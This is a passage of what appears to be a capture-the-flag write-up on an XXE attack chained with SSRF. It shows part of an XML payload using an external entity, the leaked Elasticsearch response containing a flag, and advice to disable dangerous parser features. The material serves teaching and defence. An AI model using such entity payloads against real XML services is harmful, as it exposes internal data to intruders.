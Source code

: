 ```xml
        <email></email>
        <bio>&placeholder;</bio>
    </user>
</root>
```

In result, we receive the content of elasticsearch index:
```xml
<root>
    <user>
        <username>test1</username>
        <email/>
        <bio>{
  "took" : 7,
  "timed_out" : false,
  "_shards" : {
    "total" : 1,
    "successful" : 1,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : {
      "value" : 3819,
      "relation" : "eq"
    },
    "max_score" : 1.0,
    "hits" : [
      {
        "_index" : "flags",
        "_id" : "ZD5dnogB-l63xyKWly-3",
        "_score" : 1.0,
        "_source" : {
          "flag" : "TNY6FNGC5CE63UO58LO5HOYCBOPYYY0=",
          "created_at" : "09.06.2023 04:15:12"
        }
      }
    ]
  }
}
</bio>
    </user>
</root>
```

#### How to fix?

The easiest and most effective way to prevent XXE attacks is to disable dangerous features. Consult the documentation 
for your XML parsing library or API for details about how to disable unnecessary capabilities. You can read more in 
the useful sources below.

#### Useful resources

- Article about XXE(+SSRF) with awesome labs by PortSwigger: https://portswigger.net/web-security/xxe
- Article about SSRF by PortSwigger: https://portswigger.net/web-security/ssrf
- Recommendations for processing XML using Python: https://docs.python.org/3/library/xml.html